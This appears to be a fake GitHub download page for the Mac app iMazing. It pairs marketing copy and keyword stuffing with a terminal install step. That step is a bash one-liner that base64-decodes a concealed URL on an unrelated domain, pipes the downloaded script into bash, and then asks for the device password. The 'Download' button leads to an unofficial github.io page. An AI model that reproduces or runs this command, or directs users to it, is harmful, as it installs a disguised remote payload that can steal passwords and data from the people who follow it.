 # iMazing Download Mac - Ultimate iOS Device Manager

![iMazing Screenshot 1](https://imazing.com/uploads/press-kit/v3/screens/im3-presskit-img-1-mac.webp)

---

## 🔽 Download iMazing for Mac

[![Download Now](https://img.shields.io/badge/Download_iMazing-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/imazing)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is iMazing for Mac?

iMazing is a powerful and user-friendly iOS device management tool designed for macOS. It allows users to transfer, back up, and organize their iPhone, iPad, or iPod data with ease. Unlike iTunes, iMazing offers more control and flexibility, enabling you to manage your device's files, messages, photos, and apps without restrictions. Whether you're looking to create a full backup, export messages, or transfer files between your Mac and iOS device, iMazing provides a seamless solution.

The software supports a wide range of features, including wireless backups, selective restores, and the ability to extract data from old backups. iMazing also lets you browse and save your device's app data, making it invaluable for developers and power users. With its intuitive interface and robust functionality, iMazing is the go-to tool for anyone who wants to take full control of their iOS device management.

iMazing is fully compatible with the latest macOS versions and optimized for Apple Silicon (M1/M2) for lightning-fast performance. It also supports all iOS devices, including the newest iPhone and iPad models.

![iMazing Screenshot 2](https://imazing.com/img/visual/screenshots/mac/homescreen.jpg)

---

## Key Features & Benefits

- 📱 Comprehensive iOS device management  
- 💾 Full and incremental backups  
- 📤 Export messages, photos, and contacts  
- 🔄 Wireless data transfer  
- 🛠 Developer-friendly app data access  
- ⚡ Optimized for macOS (M1/M2 and Intel)  

Whether you're a casual user or a tech enthusiast, iMazing simplifies iOS device management with its powerful features and ease of use.

---

## 🔍 Keywords

iMazing for Mac, iMazing Mac Download, iMazing for Mac Download, iMazing Mac, iMazing Download Mac, iMazing Download for Mac, iMazing full version, Mac Download iMazing, Download Mac iMazing, Download iMazing Mac, Download iMazing for Mac
